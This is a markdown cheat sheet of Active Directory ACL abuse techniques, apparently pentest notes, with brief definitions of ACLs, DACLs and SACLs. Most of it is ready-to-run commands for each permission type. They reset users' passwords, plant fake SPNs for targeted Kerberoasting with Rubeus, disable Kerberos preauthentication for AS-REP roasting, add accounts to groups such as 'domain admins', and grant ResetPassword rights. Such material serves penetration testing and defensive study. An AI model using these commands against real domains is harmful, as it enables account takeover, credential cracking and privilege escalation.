 # ACLs

> An **ACL is an ordered list of ACEs (access control entry)** that define the protections that apply to an object and its properties. Each ACE identifies a security principal and specifies a set of access rights that are allowed, denied, or audited for that security principal. An object’s security descriptor can contain two ACLs:
>
> * A DACL that identifies the users and groups that are allowed or denied access
> * A SACL that controls how access is audited
>
> When a user tries to access a file, the Windows system runs an AccessCheck and compares the security descriptor with the users access token and evaluates if the user is granted access and what kind of access depending on the ACEs set.

## DACL

> A DACL, Discretionary Access Control List, will contain details that help identify which user or group has access to an object and who is denied access.
>
> Only the access control lists that define the degree of access for users and groups are called DACLs.

### List

#### **GenericAll**

Full rights to the object (add users to a group or reset user's password)

**on User**

1. **Change the password** of the user:

```powershell
net user <username> <password> /domain

# from linux
rpcclient -U KnownUsername 10.10.10.192
setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

2. **Targeted Kerberoasting**: You could make the user kerberoastable setting an SPN on the account, kerberoast it and attempt to crack offline:

```powershell
# Set SPN
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
# Get Hash
.\Rubeus.exe kerberoast /user:<username> /nowrap
# Clean SPN
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

# You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
# to get hashes of one or all the users
python3 targetedKerberoast.py -domain.local -u <username> -p password -v
```

4. **Targeted ASREPRoasting**: You could make the user ASREPRoastable by disabling preauthentication and then ASREProast it:

```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

#### **GenericWrite**

Update object's attributes (i.e logon script)

**on Group**

Claire has GenericWrite over backups-admins group

```powershell
# add claire to the group !
net group backup-admins claire /add
```

#### **WriteOwner**

Change object owner to attacker controlled user take over the object

**on User**

Tom has WriteOwner on Claire

```powershell
### Create powershell credential and change credentials. 
### NOTE!! IN A REAL PENTEST YOU WOULD ENABLE REVERSIBLE ENCRYPTION OR MAKE USER KERBEROSTABLE OR SOMETHING ELSE AND NOT CHANGE THE PASSWORD IN A PRODUCTION ENVIRONMENT
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

#### **WriteDACL**

Modify object's ACEs and give attacker full control right over the object

**on User**

You can add new ACLs

```powershell
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

#### **ForceChangePassword**

Ability to change user's password

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}

# same with powerview
Set-DomainUserPassword -Identity delegate -Verbose

# from linux
rpcclient -U KnownUsername 10.10.10.192
setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

#### **Self**

Another privilege that enables the attacker adding themselves to a group.

```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## SACL

> SACLs are used for establishing system-wide security policies for actions such as logging or auditing resource access. The SACL attached to a system, directory, or file object specifies
>
> * Which security principals (users, groups, computers) should be audited when accessing the object
> * Which access events should be audited for these principals
> * Whether a Success or Failure attribute is generated for an access event, depending on the permissions granted in the DACL for the object
